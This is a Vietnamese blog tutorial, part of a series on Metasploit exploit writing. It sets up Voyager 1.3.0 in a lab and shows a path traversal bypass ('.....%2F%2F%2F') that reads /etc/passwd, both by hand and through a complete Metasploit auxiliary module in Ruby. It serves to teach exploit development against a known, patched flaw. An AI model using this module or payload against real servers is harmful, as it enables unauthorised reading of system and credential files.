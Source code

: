 ![](https://images.viblo.asia/c74ff2b3-bb74-4a77-a3fb-afb4e607d250.jpg)

Tiếp nối những kiến thức còn dang dở ở [phần 2 ](https://viblo.asia/p/ky-thuat-khai-thac-lo-hong-bao-mat-web-tren-metasploit-framework-p2-RQqKLQr4Z7z) .  Hôm nay chúng ta sẽ tiếp tục cùng nhau viết một mã khai thác đơn giản trên Metasploit Framework.

## 7. Kịch bản khai thác lỗ hổng Path traversal trong CMS Voyager Laravel

Do mục tiêu hướng tới là viết mã khai thác đơn giản, nên việc chọn lựa nền tảng kiểm thử ban đầu là khá quan trọng. Chúng ta cố gắng chọn những lỗ hổng dễ khai thác, con đường khai thác ngắn và ít tốn công nhất. Ở đây mình chọn lỗ hổng Path traversal trong CMS Voyager Laravel vì nó đáp ứng đầy đủ các yêu cầu trên. Mức độ khai thác dễ dàng cũng như dễ hình dung tính hiệu quả của mã. Lỗ hổng này do một người đồng nghiệp của mình tìm ra và public tại [đây](https://www.exploit-db.com/exploits/47875) 

**7.1 Dựng môi trường thử nghiệm**

Voyager là một ứng dụng web mã nguồn mở xây dựng trên Framework Laravel của PHP. Voyager là mã nguồn mở và hiện đang được phát triển tại https://github.com/the-control-group/voyager. Ứng dụng giúp người sử dụng có thể tạo ra một trang quản trị hệ thống một cách nhanh chóng và dễ dàng.

Để có thể cài đặt Voyager, trước tiên chúng ta cần cài đặt PHP và Laravel. Phần sau đây hướng dẫn cài đặt PHP và Laravel trên môi trường máy chủ Centos 7.0

Đầu tiên sử dụng lệnh sau để cài đặt máy chủ web Apache:

```bash
# yum install httpd -y
```

Sau khi cài xong, khởi động Apache và đặt cho Apache khởi chạy cùng hệ thống:

```bash
# systemctl start httpd
```

Cài đặt rules cho firewall để Apache có thể hoạt động:

```bash
# firewall-cmd --permanent --add-port=80/tcp
# firewall-cmd --permanent --add-port=443/tcp
```

Cài đặt hệ quản trị cơ sở dữ liệu Mysql:

```bash
# yum install mariadb-server php-mysql
# systemctl start mariadb.service
```

Cài đặt PHP 7.2

```bash
# yum install yum-utils
# yum-config-manager --enable remi-php72
```

Cài đặt “composer” và  “Laravel”:

```bash
# curl -sS https://getcomposer.org/installer | php
# mv composer.phar /usr/bin/composer
```

Sau khi đã xây dựng được môi trường cần thiết trên máy chủ. Chúng ta tiến hành cài đặt Voyager version  1.3.0:

```bash
# composer require tcg/voyager:1.3.0
```

Tạo một cơ sở dữ liệu với Mysql sau đó chỉnh sửa tệp “.env” tại đường dẫn thư mục: “/var/www/html/voyager/.env” và thêm vào các thông số cấu hình như sau:

```
DB_HOST=localhost
DB_DATABASE=voyager
DB_USERNAME=voyager
DB_PASSWORD=secret
```

Bắt đầu quá trình cài đặt và cấu hình Voyager tự động:

```
# cd /var/www/html/voyager/
# php artisan voyager:install
```

Sau khi thực hiện các bước trên, Voyager đã được cài đặt thành công trên máy chủ.
Sử dụng lệnh sau để có thể chạy dịch vụ. Thêm tham số “--host = 0.0.0.0” để Voyager có thể truy cập từ các địa chỉ ip bên ngoài.

```
# php artisan serve --host=0.0.0.0
```

Mặc định Voyager sẽ chạy trên cổng 8000. Có thể sử dụng tham số “--port=[port]” để thay đổi cổng dịch vụ Voyager lắng nghe.

Sau khi chạy chương trình, truy cập địa chỉ http://ip:8000/admin để vào trang quản trị của Voyager:

![](https://images.viblo.asia/a62f548b-3599-4133-be72-5d983f21d579.png)

**7.2 Khai thác lỗ hổng Path traversal trong CMS Voyager Laravel bằng "tay"**

Chúng ta cùng xem qua mã nguồn của API :

```php
public function assets(Request $request)
{
    $path = Str::start(str_replace(['../', './'], '', urldecode($request->path)), '/');
    $path = base_path('vendor/tcg/voyager/publishable/assets'.$path);
     if (File::exists($path)) {
            $mime = '';
            if (Str::endsWith($path, '.js')) {
                $mime = 'text/javascript';
            } elseif (Str::endsWith($path, '.css')) {
                $mime = 'text/css';
            } else {
                $mime = File::mimeType($path);
            }      
```

Trong các ứng dụng xây dựng trên Voyager có một API là “*GET /admin/voyager-assets?path=[....]*”.  Với tham số “path” là đường dẫn tới các tệp tài nguyên như hình ảnh, javascript,files ... của ứng dụng.

Đoạn mã trên đã cố gắng chống lại “Path traversal” bằng cách xóa đi những chuỗi “../” và “./” nhưng rõ ràng là chưa triệt để.  Kẻ tấn công có thể dễ dàng bypass bằng cách sử dụng các chuỗi kí tự “.....%2F%2F%2F”. Từ đó có thể khai thác “Path traversal” và đọc được các tệp tin hệ thống trên máy chủ:

![](https://images.viblo.asia/4cd0d894-13a3-4b0b-88cf-6f4e1b99252d.png)

Lỗ hổng trên đã được vá từ các phiên bản >1.3.0. Chi tiết về bản vá tại [đây](https://github.com/the-control-group/voyager/pull/4569/commits/9d8c5fd7705176580cf1f8e564e5739404a0c669):  

**7.3 Khai thác lỗ hổng Path traversal trong CMS Voyager Laravel bằng Metasploit Framework**

Trước tiên cần khai báo các thông tin về lỗ hổng và các tham số cần thiết:

```ruby
class MetasploitModule < Msf::Auxiliary
    include Msf::Exploit::Remote::HttpClient
    include Msf::Auxiliary::Report
    include Msf::Auxiliary::Scanner
  
    def initialize(info = {})
      super(update_info(info,
        'Name'        => 'Laravel Voyager Directory Traversal',
        'Description' => %q{
          This module exploits a directory traversal vulnerability which
          exists in Laravel Voyager < 1.3.0.
        },
        'References'  =>      [
          ],
        'Author'      =>         [
          ],
        'DisclosureDate' => 'Aug 03 2019',
        'License'     => MSF_LICENSE
      ))
```

Hai câu lệnh sau dùng để khai báo hai tham số cần thiết cho việc khai thác. “FILEPATH” là đường dẫn tuyệt đối của tệp trên máy chủ. “DEPTH” là tham số xác định bậc của thư mục Voyager hiện hành. Mặc định được để là 10:

  ```ruby
    register_options(
        [
          OptString.new('FILEPATH', [true, "The path to the file to read", '/etc/passwd']),
          OptInt.new('DEPTH', [ true, 'Depth for Path Traversal', 10 ])
        ])
    end
```

Tiếp là phần mã dùng để gửi yêu cầu đến máy chủ và khai thác lỗ hổng:

```ruby
def run_host(ip)
      filename = datastore['FILEPATH']
      traversal = '.....%2F%2F%2F' * datastore['DEPTH'] << filename
  
      res = send_request_raw({
        'method' => 'GET',
        'uri'    => normalize_uri(target_uri.path, "admin/voyager-assets?path=#{traversal}"),
        'vars_get' => {'path' => traversal}
      })

      unless res && res.code == 200
        print_error('Nothing was downloaded')
        return
end
      vprint_good("#{peer} - \n#{res.body}")
      path = store_loot(
        filename,
        'text/plain',
        ip,
        res.body,
        filename
      )
      print_good("File saved in: #{path}")
    end
```

Do lỗ hổng không yêu cầu xác thực và nền tảng kiểm thử không sử dụng các phương pháp đảm bảo an toàn tối thiểu, nên việc viết mã khai thác là tương đối dễ dàng. 


**7.3.1 Sử dụng mã khai thác**

Lưu mã khai thác vào thư mục cài đặt Metasploit Framework  “**/usr/share/metasploit-framework/modules/exploits/myexploits/voyager.rb**”. Sau đó khởi động Voyager. Đặt các tham số cần thiết cho việc khai thác:

![](https://images.viblo.asia/cfdc7c9e-20cd-48f0-86e1-25b406674f28.png)


Sau khi khai thác,  Metasploit Framework sẽ trả lại đường dẫn lưu tệp. Sử dụng lệnh cat để xem nội dung tệp:

![](https://images.viblo.asia/ad4652fa-dce8-4858-bd1c-21e477c2b13f.png)


## 8. Tổng kết

Qua đây, chúng ta đã cùng nhau xây dựng thành công một mã khai thác đơn giản trên Metasploit Framework . Ở phần tiếp theo, mình sẽ trình bày các mã khai thác khó hơn, con đường khai thác dài và phức tạp hơn. Xin cảm ơn mọi người đã đọc tới đây, hẹn gặp lại ở phần 4.

Tài liệu tham khảo :

https://github.com/rapid7/metasploit-framework/wiki

https://www.offensive-security.com/metasploit-unleashed/

Thank to @doandinhlinh